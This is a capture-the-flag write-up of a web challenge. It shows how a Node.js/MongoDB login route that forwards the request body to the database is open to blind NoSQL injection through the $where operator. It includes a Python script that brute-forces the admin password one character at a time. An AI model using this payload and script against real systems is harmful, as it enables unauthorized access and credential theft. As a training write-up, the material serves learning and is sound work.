 # Description:
**I'd rather die than use a password manager. In other news, can anyone help me remember the login info for my account?**

**There was a source code provided with the chall**

# Walkthrough:
**First, let's access the main page of the website.**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/035fb34f-cbfd-47fa-9241-e4442dce4140)

**lets look at the sign in page**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/e91f5753-8bd2-483c-8517-f9f91f42a171)

**Now lets look at the code to get better understanding of the web app**
**in the provided folder we have two importand files firs index.js and second startup.js lets take a look deeper in them**


**startup.js**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/22639b08-90d1-4782-bdea-6a32a010e584)
**it is a normal file for oppen a connection with mongodb (nosql db) and it create a collection(table) called users and add document in it with data username -> admin password->flag so it is clear that we need to get the flag right <3**


**index.js**
**it is a normal application writen with nodejs and used express as a framework**
**But in the login i notice that there is a vuln with how the code take the data from the user here**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/855df51e-bc48-4694-be73-b086a5a76baf)

**the developer take the input from the user and pass it fillter function lets see what dose this function do**

```const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```
**it's goal is to convert input to lower and check if it have a regex word in it or not mmmmmmmmmmm interesting**

**lets get back the login route after the filter function return true it start a connection with the db and pass the req.body to the db (it is nosql) wow it only validate that input dosent have a regex word and i have a full control on the request from i can add any paramters i want and it will get passed to the db**

**after the db retrun data it only print a Login successful! here i knowed that iam facing an blindbased nosql injection and i cannot use regex word to get the flag but i have a full control on the paramters that is being passed to the db**

**so what about add the $where operator that makes me able to write a js code that could help me to get the flag so lets first make sure that it accept the where operator by sending this $where:"1" and this $where:"0" and see the difference in the response**

**i deleted the password so it dosent retrun Login failed! every time i have a full control on the paramters DF**

**in $where:"1" we got a Login successful! oh nice**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/c5d41e41-eb27-4d6b-b984-a417e08c4ff3)

**in  $where:"0" we got Login failed!**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/60916a21-b6be-4fd5-92d8-a48e2844d608)

**so now we know that on the right statment we will get  Login successful! and on false we will get  Login failed!**

**now how we will get the password ????????**

**so what about do this -> this.password -> if this return true it mean that it see the password filed in the db and we can get the flag by brute forcing its content lets try**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/761f5b92-194a-4ad7-b68b-a55002918f1c)

**it worked  so first lets know the size but howw? -> like this this.password[0],this.password[20] till it return false it mean that it's size is smaller than the number you are passing after some time i knowed the size was 59**

**now we need to extract the data we can access each char as i saied like this this.password[0] right ? so what about make a bollean statment and check if it return true it mean that this index contain this char**

**like this this.password[0]=="a" if it return true it mean that at index 0 the char is a got it ? <3**
**but iam not doing it for a 59 char XD so i made this script**
```import requests
import json
wordlist = [
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    'A', 'a', 'B', 'b', 'C', 'c', 'D', 'd', 'E', 'e',
    'F', 'f', 'G', 'g', 'H', 'h', 'I', 'i', 'J', 'j',
    'K', 'k', 'L', 'l', 'M', 'm', 'N', 'n', 'O', 'o',
    'P', 'p', 'Q', 'q', 'R', 'r', 'S', 's', 'T', 't',
    'U', 'u', 'V', 'v', 'W', 'w', 'X', 'x', 'Y', 'y',
    'Z', 'z', '~', '!', '@', '#', '$', '%', '^', '&',
    '*', '(', ')', '-', '_', '+', '=', '{', '}', ']',
    '[', '|', '\\', '`', ',', '.', '/', '?', ';', ':',
    "'", '"', '<', '>', ' '
]

password = ''

# Define the JSON data
data = {"username": "admin", "$where": ""}

# Iterate through each character in the wordlist
for i in range(60):
    for char in wordlist:
        data["$where"] = f"this.password[{i}]=='{char}'"


        response = requests.post('http://35.232.242.42:5249/login', json=data)

        if response.status_code == 200:
            password += char
            i = i+1
            print("Password:", password)
            break

print("Password:", password)```

**and after you run this you will get the flag GGGGGGGGGG**

flag -> squ1rrel{7h0ugh7_y0u_c0u1d_regex_y0ur_way_0u7_0f_7h1s_ay3?}







